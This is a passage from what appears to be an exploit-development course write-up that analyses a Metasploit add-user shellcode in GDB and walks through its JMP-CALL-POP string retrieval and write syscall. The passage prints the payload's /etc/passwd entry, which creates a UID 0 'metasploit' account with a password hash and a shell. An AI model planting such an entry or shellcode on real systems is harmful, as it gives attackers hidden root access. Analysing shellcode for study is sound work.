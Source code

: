 In the instruction section, we can see the following instructions: 
        
    00000025  93                xchg eax,ebx
    00000026  E828000000        call 0x53

So to better understand the behavior, we look at it into GDB which gave the following instructions:

    0x8048079:	xchg   ebx,eax
    0x804807a:	call   0x80480a7
    0x80480a7:	pop    ecx

The first instruction store the file descriptor into EAX. Then, as we could see into GDB, the JMP-CALL-POP technic is used to retrive the address of the string that needs to be inserted into the /etc/passwd file. The last instruction store the address of the following value :

    ECX: 0x804807f ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")

####  <span style="color:#01416C;"> 4 - Write </span> 

Then in GDB, we display the newt instructions :

    0x80480a8:	mov    edx,DWORD PTR [ecx-0x4] // Length
    0x80480ab:	push   0x4
    0x80480ad:	pop    eax
    0x80480ae:	int    0x80

<img src="/assets/slae32-img/assignment5/assignment5.7.PNG" alt="drawing" style="width:900px"/>

